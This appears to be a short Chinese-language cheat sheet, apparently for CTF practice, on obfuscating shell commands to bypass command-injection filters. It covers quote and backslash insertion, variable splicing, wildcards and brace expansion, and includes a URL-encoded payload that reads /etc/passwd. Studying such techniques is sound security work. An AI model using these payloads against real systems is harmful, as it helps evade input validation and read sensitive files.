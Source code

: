 
- 引号（单引号、双引号、反引号）

```sh
# 单引号
w'h'o'am'i
wh''oami

# 双引号
w"h"o"am"i
wh""oami

# 反引号\`
wh``oami
```

- 反斜线`\`（转义字符）

```sh
wh\oami
```

转义字符（%5C）和换行符（%0A）连用，实现命令续行，以下是经 URL 编码示例：

```
ca%5C%0At%20/et%5C%0Ac/pa%5C%0Asswd
```

- 变量

```sh
# 变量拼接
a=f;b=lag;cat $a$b # cat flag

# 未初始化的变量，等价于null
ca${u}t f${u}lag
```

- 模式扩展

```bash
# 通配符`?`代表任意单个字符，不包括空字符，如果匹配多个字符，需要多个`?`连用
cat fla?
cat fl??

# 通配符`*`代表任意数量的任意字符，包括零个字符
cat f*

# 方括号扩展[]
cat [f]lag

# 花括号扩展{}
cat {f,}lag

# 子命令扩展
cat /fla$(u)g
cat /fla`u`g
```
